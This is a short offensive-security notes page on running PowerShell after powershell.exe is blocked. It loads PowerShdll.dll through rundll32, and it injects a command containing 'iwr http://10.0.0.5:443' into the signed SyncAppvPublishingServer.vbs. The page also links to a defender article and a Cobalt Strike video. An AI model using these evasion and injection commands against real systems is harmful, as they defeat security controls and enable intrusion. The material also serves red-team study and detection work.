


# Powershell Without Powershell.exe

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## PowerShdll

```text
rundll32.exe PowerShdll.dll,main
```


Note that the same could be achieved with a compiled .exe binary from the same project, but keep in mind that .exe is more likely to run into whitelisting issues.

## SyncAppvPublishingServer

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```text
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```







{% embed data="{\"url\":\"https://safe-cyberdefense.com/malware-can-use-powershell-without-powershell-exe/\",\"type\":\"link\",\"title\":\"How malware can use Powershell without powershell.exe - SAFE-Cyberdefense\",\"description\":\"Microsoft allows to execute Powershell scripts without calling powershell.exe. More and more cyberattacks and ransomwares use this type of technique to damage your system. See how this attack works and how SAFE Endpoint Security prevent it.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://safe-cyberdefense.com/wp-content/uploads/2017/09/cropped-favicon-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://safe-cyberdefense.com/wp-content/uploads/2018/01/PowershellAlternative.jpg\",\"width\":743,\"height\":619,\"aspectRatio\":0.8331090174966352}}" %}

{% embed data="{\"url\":\"https://www.youtube.com/watch?v=7tvfb9poTKg\",\"type\":\"video\",\"title\":\"Unmanaged PowerShell - PowerShell without powershell.exe\",\"description\":\"This video demonstrates the unmanaged PowerShell features in Cobalt Strike\'s Beacon payload. The powerpick command lets you run powershell scripts without powershell.exe. The psinject command lets you inject a PowerShell instance + script into a specific process.\\n\\nThe original POC:\\nhttps://github.com/leechristensen/UnmanagedPowerShell\\n\\nJustin Warner\'s post on PowerPick and ReflectivePick:\\nhttps://www.sixdub.net/?p=367\\n\\nBeacon:\\nhttps://www.cobaltstrike.com/help-beacon\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/7tvfb9poTKg/mqdefault.jpg\",\"width\":320,\"height\":180,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/7tvfb9poTKg?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/7tvfb9poTKg?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

